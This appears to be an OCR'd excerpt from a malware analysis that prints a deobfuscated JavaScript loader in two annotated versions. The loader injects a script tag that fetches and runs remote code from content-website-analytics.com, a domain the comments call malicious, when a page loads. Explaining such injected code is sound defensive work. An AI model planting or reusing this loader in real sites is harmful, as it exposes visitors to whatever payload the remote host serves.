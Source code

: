 
### Complete Deobfuscated Code

```javascript
// Safety guard to prevent syntax errors
;

// Create and inject malicious script
(function(document, tagName, scriptUrl, newScript, referenceScript) {
    
    // Step 1: Create a new <script> element
    newScript = document.createElement('script');
    
    // Step 2: Find the first existing <script> tag in the page
    referenceScript = document.getElementsByTagName('script')[0];
    
    // Step 3: Set the script to load asynchronously (non-blocking)
    newScript.async = true;
    
    // Step 4: Set the source to the malicious domain
    newScript.src = 'https://content-website-analytics.com/script.js';
    
    // Step 5: Inject the malicious script into the page BEFORE the first script
    // This triggers immediate download and execution
    referenceScript.parentNode.insertBefore(newScript, referenceScript);
    
})(document, 'script', 'https://content-website-analytics.com/script.js');
```

**With Comments:**
```javascript
; // Syntax safety guard

(function(doc, tag, url, newScriptElement, firstScriptElement) {
    
    // Create new script element
    newScriptElement = doc.createElement(tag);
    
    // Get first script tag in document
    firstScriptElement = doc.getElementsByTagName(tag)[0];
    
    // Make it async (non-blocking)
    newScriptElement.async = 1; // true
    
    // Point to malicious server
    newScriptElement.src = url;
    
    // Inject into page and trigger execution
    firstScriptElement.parentNode.insertBefore(newScriptElement, firstScriptElement);
    
})(document, 'script', 'https://content-website-analytics.com/script.js');
```

---